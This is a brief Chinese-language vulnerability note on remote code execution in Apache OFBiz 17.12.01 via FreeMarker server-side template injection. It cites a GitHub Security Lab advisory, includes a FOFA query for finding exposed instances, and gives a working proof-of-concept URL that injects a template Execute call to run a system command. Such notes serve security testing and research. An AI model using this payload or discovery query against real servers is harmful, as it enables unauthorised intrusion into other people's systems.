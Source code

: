 # Apache OfBiz 远程代码执行 RCE

## 漏洞描述

Apache OfBiz 17.12.01容易受到服务器端模板注入（SSTI）的影响，从而导致远程代码执行（RCE）。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-066-apache_ofbiz

## FOFA

```
app="Apache_OFBiz"
```

## 漏洞复现

poc：

```
https://localhost/ordermgr/control/FindRequest?foo=bar"ajaxEnabled=false/>${"freemarker.template.utility.Execute"?new()("id")}<FOO
```

